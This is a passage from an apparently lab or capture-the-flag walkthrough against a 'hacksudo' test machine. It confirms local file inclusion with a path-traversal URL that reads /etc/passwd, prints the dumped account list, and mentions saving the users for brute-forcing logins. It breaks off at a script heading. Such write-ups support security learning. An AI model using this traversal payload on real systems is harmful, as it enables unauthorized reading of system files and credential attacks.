 Seeing that wfuzz found 'me' as a url parameter that isn't in the above links we can use that and see if we can
get lfi on the target machine

Navigating to http://10.0.2.254/search1.php?me=../../../etc/passwd in the browser we get the /etc/passwd file LFI confirmed

# LFI found

```bash
root:x:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:*:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:*:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:*:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:*:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
hacksudo:x:1000:1000:hacksudo,,,:/home/hacksudo:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
monali:x:1001:1001:,,,:/home/monali:/bin/bash
john:x:1002:1002:,,,:/home/john:/bin/bash
search:x:1003:1003:,,,:/home/search:/bin/bash
```

Now that I have all the users on the target machine I will add them to a file called users in case I need 
to use them later to try and brute force any kind of login

I made a little python script that allows me to enter the file that I'm looking for on the command line
instead of going to the browser and doing it that way (you can use the browser if you want just a personal preference)

# python script
